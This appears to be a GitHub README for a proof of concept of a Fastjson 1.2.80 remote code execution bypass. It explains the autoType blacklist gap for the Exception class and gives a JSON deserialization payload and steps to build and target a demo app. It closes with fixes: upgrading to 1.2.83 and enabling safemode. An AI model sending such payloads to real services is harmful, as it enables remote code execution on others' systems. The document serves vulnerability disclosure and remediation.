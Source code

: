 # fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译、运行本程序
   1. `mvn clean package`
   2. `java -jar .\target\fastjson-rce-1.0.0.jar`
2. 发送payload 
![](images/exp.png)

### 修复方式
1. 升级到最新版本 v1.2.83
2. 开启safemode
   1. 开启方法如下  

   ![](images/safemode.png)